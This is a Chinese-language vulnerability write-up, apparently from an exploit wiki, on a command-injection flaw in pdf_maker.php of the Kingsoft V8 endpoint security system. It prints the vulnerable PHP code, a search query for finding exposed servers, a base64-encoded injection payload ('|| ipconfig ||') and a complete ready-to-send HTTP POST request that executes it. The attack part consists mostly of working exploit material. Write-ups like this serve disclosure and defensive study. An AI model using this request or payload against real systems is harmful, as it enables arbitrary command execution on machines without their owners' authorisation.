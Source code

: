 # 金山 V8 终端安全系统 pdf_maker.php 命令执行漏洞

## 漏洞描述

金山 V8 终端安全系统 pdf_maker.php 存在命令执行漏洞，由于没有过滤危险字符，导致构造特殊字符即可进行命令拼接执行任意命令

## 漏洞影响

<a-checkbox checked>金山 V8 终端安全系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="猎鹰安全-金山V8+终端安全系统"</a-checkbox></br>

## 漏洞复现

存在漏洞的文件为

```plain
Kingsoft\Security Manager\SystemCenter\Console\inter\pdf_maker.php
```

```php
<?php
require_once (dirname(__FILE__)."\\common\\HTTPrequest_SCpost.php");
/*
{
   "kptl" :
{
"set_exportpdf_cmd" :
    {
    "url" : "http://xxx.xxx.xxx.xxx/report/system/main.php?userSession=5784727B-7AEA-4EFE-B0CB-DDD6DA1CABD3&guid=1AC380D9-                580C-49A8-B6EC-787CF50FA928&VHierarchyID=ADMIN",
    "fileName":"test.pdf"
    }
}
*/
	
	
	//$post = file_get_contents("php://input");
	
	/*
	$post = array("kptl"=>
			array("set_exportpdf_cmd"=>array(
				"url"=>"http://xxx.xxx.xxx.xxx/report/system/main.php?userSession=5784727B-7AEA-4EFE-B0CB-DDD6DA1CABD3&guid=1AC380D9-580C-49A8-B6EC-787CF50FA928&VHierarchyID=ADMIN",
				"fileName"=>"test1234.pdf"
				)
			));
			*/
			
	
			
	
	

	$url = $_POST["url"];
	$fileName =  $_POST["fileName"];
	$batName=$fileName;
	if ($url == null || $fileName == null)
	{
		$return["nResult"] = __LINE__;
		echo json_encode($return,JSON_UNESCAPED_UNICODE);
		return ;
	}
	
	$url = base64_decode($url);
	$nameStr = base64_decode($fileName).date("Y-m-d").".pdf";
	$fileName="..\\htmltopdf\\".$nameStr;

	system('mkdir ..\\htmltopdf');

	
	$cmd = '..\\..\\wkhtmltopdf.exe "'.$url.'" '.$fileName;
	if (getApacheVersion()>=24) { //apache 2.4 php 7 版本 只能在  bat中运行
		$cmd =" del ".$fileName;

		exec($cmd);
		$url_= str_replace('%','%%', $url);
		$cmd = '..\\..\\wkhtmltopdf.exe "'.$url_.'" '.$fileName;
		$batName ="exec_wkhtmltopdf.bat";
		$myfile = fopen($batName , "w");
		//$cmd =iconv("UTF-8", "gbk", $cmd );
		fwrite($myfile, $cmd);
		fclose($myfile);
		$cmd =$batName ;
		exec($cmd);
		$cmd =" del ".$batName;
		exec($cmd);
    }else
    {
	system($cmd);
    }
	// echo $url;
	$return = array("nResult" => "0","fileName" =>$nameStr,"url"=>$url);
	echo json_encode($return,JSON_UNESCAPED_UNICODE);
	
?>
```



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313111023403.png)



这里传入 base64加密的拼接命令即可执行任意命令

```plain
"|| ipconfig || --base64--> url=IiB8fCBpcGNvbmZpZyB8fA==&fileName=xxx
```

```plain
POST /inter/pdf_maker.php HTTP/1.1
Host: 
Content-Length: 45
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.128 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer:
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=noei1ghcv9rqgp58jf79991n04

url=IiB8fCBpcGNvbmZpZyB8fA%3D%3D&fileName=xxx
```



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313111022840.png)



## 